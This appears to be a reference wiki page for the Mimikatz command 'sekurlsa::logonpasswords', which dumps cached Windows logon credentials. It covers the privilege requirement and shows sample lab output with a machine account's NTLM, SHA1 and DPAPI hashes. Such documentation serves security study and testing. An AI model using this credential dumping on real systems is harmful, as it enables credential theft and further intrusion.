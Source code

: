 # logonpasswords

`sekurlsa::logonpasswords` lists all available provider credentials. This usually shows recently logged on user and computer credentials.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 712960 (00000000:000ae100)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
Logon Server      : DC
Logon Time        : 9/26/2021 4:57:38 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1427
        msv :
         [00000003] Primary
         * Username : MediaAdmin$
         * Domain   : hacklab
         * NTLM     : 35950fdc8d3d99b4136510414009662d
         * SHA1     : 185535108abf1fc0287dedbaff210b77989251c8
         * DPAPI    : 73006d59c6adcf27da6e097787a6d1f9
        tspkg :
        wdigest :
         * Username : MediaAdmin$
         * Domain   : hacklab
         * Password : (null)
        kerberos :
         * Username : MediaAdmin$
         * Domain   : HACKLAB.LOCAL
         * Password : (null)
        ssp :
        credman :
```
